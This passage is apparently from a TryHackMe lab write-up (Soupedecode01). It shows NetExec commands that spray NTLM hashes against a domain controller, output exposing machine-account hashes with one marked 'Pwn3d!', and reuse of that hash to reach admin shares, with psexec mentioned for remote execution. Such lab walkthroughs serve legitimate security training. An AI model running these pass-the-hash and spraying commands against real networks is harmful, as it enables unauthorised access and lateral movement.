 ![](/images/TryHackMe/Soupedecode01/cut-awk.png)

---

### Hash Spraying
We discovered that the hash for the `FileServer$` account is valid and grants us access.

```sh
nxc smb SOUPEDECODE.LOCAL -u machines.txt -H hashes.txt --no-bruteforce     
```

```sh
SMB         10.10.150.50    445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.150.50    445    DC01             [-] SOUPEDECODE.LOCAL\WebServer$:c47b45f5d4df5a494bd19f13e14f7902 STATUS_LOGON_FAILURE
SMB         10.10.150.50    445    DC01             [-] SOUPEDECODE.LOCAL\DatabaseServer$:406b424c7b483a42458bf6f545c936f7 STATUS_LOGON_FAILURE
SMB         10.10.150.50    445    DC01             [-] SOUPEDECODE.LOCAL\CitrixServer$:48fc7eca9af236d7849273990f6c5117 STATUS_LOGON_FAILURE
SMB         10.10.150.50    445    DC01             [+] SOUPEDECODE.LOCAL\FileServer$:e41da7e79a4c76dbd9cf79d1cb325559 (Pwn3d!)
```


### Administrator Access

The `FileServer$` account hash provided administrator-level access to over `DC`, Notice the tag `(Pwn3d!)`that indicates what I'm saying.
With this privilege, we can either execute commands remotely via impacket-psexec `RCE` or browse administrative shares like `C$`.

```sh
nxc smb SOUPEDECODE.LOCAL -u FileServer$ -H e41da7e79a4c76dbd9cf79d1cb325559 --shares 
```
